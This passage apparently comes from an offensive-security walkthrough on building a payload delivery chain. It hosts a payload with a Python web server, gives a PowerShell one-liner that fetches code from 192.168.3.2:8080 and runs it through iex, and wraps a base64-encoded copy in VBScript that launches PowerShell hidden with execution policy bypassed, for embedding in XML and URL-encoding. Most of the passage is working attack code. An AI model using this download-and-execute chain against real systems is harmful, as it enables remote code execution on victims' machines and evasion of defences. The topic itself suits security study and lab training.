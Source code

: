 ```bash
python3 -m http.server 8080
```

To execute this script, we need to create a PowerShell oneliner that will download this. So a quick way could be to use Invoke-WebRequest to download and execute the payload.

```powershell
invoke-command -scriptblock {(iwr http://192.168.3.2:8080/login.html -UseBasicParsing).content|iex  }
```
<img src="/images/2024-06-27-imgs/26-staging.png" alt="">

As in the previous one, take the xml code and edit the CDATA section with the following VBScript code. This will simply spawn in the background our PowerShell payload.

```vb
Set s = CreateObject("WScript.Shell")
s.Run "powershell -ep bypass -enc aQBuAHYAbwBrAGUALQBjAG8AbQBtAGEAbgBkACAALQBzAGMAcgBpAHAAdABiAGwAbwBjAGsAIAB7ACgAaQB3AHIAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAzAC4AMgA6ADgAMAA4ADAALwBsAG8AZwBpAG4ALgBoAHQAbQBsACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAC4AYwBvAG4AdABlAG4AdAB8AGkAZQB4ACAAIAB9AA==",0, true
```

Go to Cyberchef, _URL Encode_ this payload, and copy the output.
<img src="/images/2024-06-27-imgs/27-final-payload.png" alt="">
